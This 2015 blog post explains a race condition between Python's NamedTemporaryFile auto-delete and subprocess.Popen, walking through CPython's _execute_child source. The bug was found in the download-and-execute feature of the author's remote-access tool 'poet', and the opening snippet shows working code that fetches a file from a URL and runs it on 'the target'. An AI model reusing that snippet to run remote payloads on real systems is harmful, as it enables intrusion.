 ```yaml
---
layout: post
title: "Off to the (Python Internals) Races"
date: 2015-06-07
comments: true
categories: programming python
---
```


This post is about an interesting race condition bug I ran into when working
on a small feature improvement for
[poet](http://github.com/mossberg/poet) a while ago
that I thought was
worth writing a blog post about.

In particular, I was improving the download-and-execute capability of poet
which, if you couldn't tell, downloads a file from the internet and executes
it on the target. At the original time of writing, I didn't know about
the python `tempfile` module and since I recently learned about it, I wanted
to integrate it into poet as it would be a significant improvement to
the original implementation. The initial patch looked like this.

```python
r = urllib2.urlopen(inp.split()[1])
with tempfile.NamedTemporaryFile() as f:
    f.write(r.read())
    os.fchmod(f.fileno(), stat.S_IRWXU)
    f.flush()  # ensure that file was actually written to disk
    sp.Popen(f.name, stdout=open(os.devnull, 'w'), stderr=sp.STDOUT)
```

This code downloads a file from the internet, writes it to a tempfile on
disk, sets the permissions to executable, executes it in a subprocess.
In testing this code, I observed some puzzling behavior: the file was
never actually getting executed because it was suddenly ceasing to
exist! I noticed though that when I used
`subprocess.call()` or used `.wait()` on the `Popen()`, it would work
fine, however I intentionally didn't want the client to block while the
file executed its arbitrary payload, so I couldn't use those functions.

The fact that the execution would work when the `Popen` call waited for
the process and didn't work otherwise suggests that there was something
going on between the time it took to execute the child and the time it took
for the `with` block to end and delete the file, which is `tempfile`'s
default behavior. More specifically, the
file must have been deleted at some point before the `exec` syscall loaded
the file from disk into memory. Let's take a look at the implementation of
`subprocess.Popen()` to see if we can gain some more insight:

```python
def _execute_child(self, args, executable, preexec_fn, close_fds,
                           cwd, env, universal_newlines,
                           startupinfo, creationflags, shell, to_close,
                           p2cread, p2cwrite,
                           c2pread, c2pwrite,
                           errread, errwrite):
            """Execute program (POSIX version)"""

            <snip>

            try:
                try:
                    <snip>
                    try:
                        self.pid = os.fork()
                    except:
                        if gc_was_enabled:
                            gc.enable()
                        raise
                    self._child_created = True
                    if self.pid == 0:
                        # Child
                        try:
                            # Close parent's pipe ends
                            if p2cwrite is not None:
                                os.close(p2cwrite)
                            if c2pread is not None:
                                os.close(c2pread)
                            if errread is not None:
                                os.close(errread)
                            os.close(errpipe_read)

                            # When duping fds, if there arises a situation
                            # where one of the fds is either 0, 1 or 2, it
                            # is possible that it is overwritten (#12607).
                            if c2pwrite == 0:
                                c2pwrite = os.dup(c2pwrite)
                            if errwrite == 0 or errwrite == 1:
                                errwrite = os.dup(errwrite)

                            # Dup fds for child
                            def _dup2(a, b):
                                # dup2() removes the CLOEXEC flag but
                                # we must do it ourselves if dup2()
                                # would be a no-op (issue #10806).
                                if a == b:
                                    self._set_cloexec_flag(a, False)
                                elif a is not None:
                                    os.dup2(a, b)
                            _dup2(p2cread, 0)
                            _dup2(c2pwrite, 1)
                            _dup2(errwrite, 2)

                            # Close pipe fds.  Make sure we don't close the
                            # same fd more than once, or standard fds.
                            closed = { None }
                            for fd in [p2cread, c2pwrite, errwrite]:
                                if fd not in closed and fd > 2:
                                    os.close(fd)
                                    closed.add(fd)

                            if cwd is not None:
                                os.chdir(cwd)

                            if preexec_fn:
                                preexec_fn()

                            # Close all other fds, if asked for - after
                            # preexec_fn(), which may open FDs.
                            if close_fds:
                                self._close_fds(but=errpipe_write)

                            if env is None:
                                os.execvp(executable, args)
                            else:
                                os.execvpe(executable, args, env)

                        except:
                            exc_type, exc_value, tb = sys.exc_info()
                            # Save the traceback and attach it to the exception object
                            exc_lines = traceback.format_exception(exc_type,
                                                                   exc_value,
                                                                   tb)
                            exc_value.child_traceback = ''.join(exc_lines)
                            os.write(errpipe_write, pickle.dumps(exc_value))

                        # This exitcode won't be reported to applications, so it
                        # really doesn't matter what we return.
                        os._exit(255)

                    # Parent
                    if gc_was_enabled:
                        gc.enable()
                finally:
                    # be sure the FD is closed no matter what
                    os.close(errpipe_write)

                # Wait for exec to fail or succeed; possibly raising exception
                # Exception limited to 1M
                data = _eintr_retry_call(os.read, errpipe_read, 1048576)

                <snip>
```

The `_execute_child()` function is called by the `subprocess.Popen` class
constructor and implements child process execution. There's a lot of
code here, but key parts to notice here are the `os.fork()` call which
creates the child process, and the relative lengths of the following
`if` blocks. The check `if self.pid == 0` contains the code for executing
the child process and is significantly more involved than the code
for handling the parent process.

From this, we can deduce that when the `subprocess.Popen()` call executes
in my code, after forking, while the child is preparing to call
`os.execve`, the parent simply returns, and immediately exits the `with`
block. This automatically invokes the `f.close()` function which deletes
the temp file. By the time the child calls `os.execve`, the file has been
deleted on disk. Oops.

I fixed this by adding the `delete=False` argument to the
`NamedTemporaryFile` constructor to suppress the auto-delete functionality.
Of course this means that the downloaded files will have to be cleaned up
manually, but this allows the client to not block when executing the file
and have the code still be pretty clean.

Main takeaway here: don't try to `Popen` a `NamedTemporaryFile` as the
last statement in the tempfile's `with` block.
